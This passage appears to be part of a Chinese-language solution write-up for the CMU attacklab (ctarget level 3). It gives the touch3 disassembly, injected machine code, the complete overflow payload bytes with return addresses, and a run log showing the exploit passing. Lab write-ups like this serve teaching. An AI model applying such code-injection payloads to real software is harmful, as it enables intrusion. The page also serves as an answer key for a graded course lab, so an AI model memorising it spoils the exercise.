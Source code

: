 ```
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00
	...
```

在level3中，我们的参数变成了字符串，同时由于touch3调用了子函数hexmatch，尤其里面的声明和随机位置赋值，这意味着如果我们还想像level2一样在rsp-0x28处插入代码就有可能被覆盖掉。注意，我们是需要在存字符串的，一旦被覆盖了，字符串就丢失了。因此，我们换到处于更高位置的test帧处做字符串存储，同样的，由于touch3直接exit我们不用担心后续。

由于level2相同编译问题，我将touch3的入口也放到后面了，因此字符串的实际实际位置在rsp+0x10，也就是0x5561dcb0。

```
movl    $0x5561dcb0, %edi # 提供sval
retq

```

```
0000000000000000 <.text>:
   0:	bf b0 dc 61 55       	mov    $0x5561dcb0,%edi
   5:	c3                   	retq
```

通过查询ASCII表，我们可以得到cookie 0x59b997fa的字节码表示“35 39 62 39 39 37 66 61”。

```
bf b0 dc 61 55 c3 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 插入代码段 */
78 dc 61 55 00 00 00 00 /* rsp-0x24 */
fa 18 40 00 00 00 00 00 /* touch3入口 */
35 39 62 39 39 37 66 61 /* 字符串，注意用00结尾 */
00
```

```
[root@MiWiFi-R4A-srv target1]# ./hex2raw < ctarget.l3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:BF B0 DC 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

## level4
